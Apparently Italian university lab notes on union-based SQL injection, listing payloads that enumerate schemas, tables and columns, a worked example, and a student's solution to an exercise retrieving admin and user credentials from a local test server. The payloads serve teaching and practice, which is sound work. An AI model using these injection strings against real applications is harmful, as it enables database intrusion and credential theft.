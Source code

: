     -> Scoprire gli Schemi:' UNION SELECT NULL, NULL, schema_name FROM information_schema.schemata #

    -> Scoprire le Tabelle:' UNION SELECT NULL, NULL, table_name FROM information_schema.tables #

    -> Scoprire le Tabelle di uno Specifico Schema:' UNION SELECT NULL, NULL, table_name FROM information_schema.tables WHERE table_schema = 'unibo' #

    -> Scoprire le Colonne di una Specifica Tabella:' UNION SELECT NULL, NULL, column_name FROM information_schema.columns WHERE table_name = 'users' #

    -> Recuperare Dati da una Tabella:' UNION SELECT NULL, NULL, username FROM users #

### Esempio dettagliato -------------------------------------------------------------------------
Supponiamo di voler visualizzare i nomi degli utenti nel database e che l'applicazione esegua questa query:
SELECT id, username, email FROM users WHERE id = 1;

	1 Scoprire il Numero di Colonne:		Iniettiamo:			' UNION SELECT NULL #
			Se c'è un errore, proviamo con:			' UNION SELECT NULL, NULL, NULL #

		Se non dà nessun errore allora la query originale ha 3 colonne.

	2 Scoprire gli Schemi:		' UNION SELECT NULL, NULL, schema_name FROM information_schema.schemata #
			Scopriamo uno schema chiamato unibo.

	3 Scoprire le Tabelle:		' UNION SELECT NULL, NULL, table_name FROM information_schema.tables WHERE table_schema = 'unibo' #
				Scopriamo tabelle chiamate users e guestbook.

	4 Scoprire le Colonne della Tabella users:		' UNION SELECT NULL, NULL, column_name FROM information_schema.columns WHERE table_name = 'users' #
				Scopriamo colonne chiamate id, username, email.

	5 Recuperare i Dati dalla Tabella users:		' UNION SELECT NULL, NULL, username FROM users #
				Otteniamo una lista di utenti:		ale
		Pippo

### TESTO ESERCIZIO
Attraverso una richiesta GET alla root / con il parametro id, e' possibile fare la richiesta per ottenere nome e cognome di un determinato username
Scopo dell'esercitazione e' quello di sfruttare la Union Based SQLi e recuperare le credenziali degli utenti admin e sandra varga
Non ci sono filtri particolari sui caratteri utilizzabili.
IMPORTANTE! Per enumerare le tabelle e le colonne delle tabelle del database NON bisogna cercare su Information_Schema MA e' presente una tabella apposita chiamata:
sqlite3_master con le seguenti colonne: table_name, column_number, column_names 

PAYLOAD PER ENUMERARE: http://localhost:8000/?id=1%20UNION%20SELECT%20NULL,table_name,%20column_number,%20column_names%20FROM%20sqlite3_master#
PAYLOAD FINALE: http://localhost:8000/?id=1%20UNION%20SELECT%20usarname,name,%20surname,%20passweerd%20FROM%20utonti#

-in questo modo ho usato UNION per enumerare. Ho trovato che erano 4 colonne scrivendo NULL,NULL,NULL,NULL e poi ho messo FROM "nome tabella detta dal prof"

